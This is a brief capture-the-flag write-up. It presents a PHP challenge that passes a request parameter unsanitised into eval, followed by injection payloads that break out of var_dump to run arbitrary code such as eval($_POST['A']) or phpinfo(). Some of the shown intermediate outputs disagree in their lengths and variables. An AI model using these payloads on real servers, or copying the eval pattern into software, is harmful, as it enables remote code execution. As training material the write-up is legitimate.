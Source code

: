 # Challenge 
```php 
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```

# Solution
payload1:
```
?hello=);eval($_POST['A']);%2f%2f

或

?hello=);eval(phpinfo());//
```
var_dump($a);后的结果为
```
string(22) ");eval($_POST['A']);//"
```

即
```
eval("string(21) ");eval($_GET['A']);//"");
```

payload2:
```
?hello=);eval($_GET[c]&c=phpinfo();
```
var_dump()后的结果是
```
string(15) ");eval($_GET[c]"
```

即
```
eval("string(17) ");eval($_GET[c]" string(0) "" ");
```
# Refference
+ [XNUCA 赛前指导 default](http://218.76.35.74:20131/index2.php)